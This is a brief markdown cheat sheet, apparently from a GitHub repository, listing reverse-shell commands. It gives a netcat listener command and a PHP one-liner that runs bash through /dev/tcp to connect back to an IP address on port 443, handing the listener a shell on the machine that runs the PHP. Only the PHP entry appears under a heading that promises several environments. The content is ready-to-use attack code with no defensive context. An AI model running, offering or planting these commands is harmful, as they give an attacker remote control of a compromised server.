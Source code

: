 # Commonly Reverse Shell Commands

---

## 🎧 **Start a Reverse Shell Listener**
```bash
nc -lvp 443
```

---

## 🏴 **Reverse Shell in Diffirent Environment**
### **PHP**
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.222/443 0>&1'"); ?>
```
